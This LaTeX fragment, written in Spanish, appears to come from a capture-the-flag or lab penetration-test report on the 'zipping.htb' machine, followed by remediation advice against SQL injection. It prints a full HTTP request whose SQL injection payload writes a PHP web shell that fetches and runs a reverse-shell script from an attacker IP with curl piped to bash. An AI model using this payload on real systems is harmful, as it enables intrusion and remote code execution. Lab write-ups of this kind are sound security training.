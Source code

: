 \documentclass[a4paper]{article} %
\begin{document}
    \begin{lstlisting}[language=, caption=]
    GET /shop/index.php?page=product&id=\%0A'\%3bselect+'\%3c\%3fphp+system("curl+http\%3a//10.10.14.38/revshell.sh|bash")+ \%3f>'\%3e+into+outfile+'/var/lib/mysql/a.php'\%231 HTTP/1.1
    Host: zipping.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    DNT: 1
    Connection: close
    Cookie: PHPSESSID=2id3kjr4t69l0fg99j9ki12h29
    Upgrade-Insecure-Requests: 1
    \end{lstlisting}

    Y de esta forma logramos ganar acceso al sistema.
    
    \clearpage

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\caption{Ganamos acceso al sistema}
    \end{figure}

    \textbf{Remediation}

    \begin{itemize}
    \item \textbf{Utilizar consultas preparadas (Prepared Statements) o consultas parametrizadas:}
    La forma más efectiva de prevenir la SQL Injection en PHP es utilizar consultas preparadas o parametrizadas con bibliotecas de acceso a la base de datos como PDO (PHP Data Objects) o MySQLi (MySQL Improved). Estas consultas separan los datos de la consulta SQL, evitando así la inserción de código malicioso.
    \item \textbf{Validar y sanitizar entradas de usuario:}
    Asegurarse de que todas las entradas de usuario, como datos de formularios, parámetros de URL o cookies, sean validadas y sanitizadas adecuadamente antes de ser utilizadas en consultas SQL. Esto implica eliminar o escapar caracteres especiales que podrían ser interpretados como parte de una consulta SQL.
    \end{itemize}
    
\end{document}
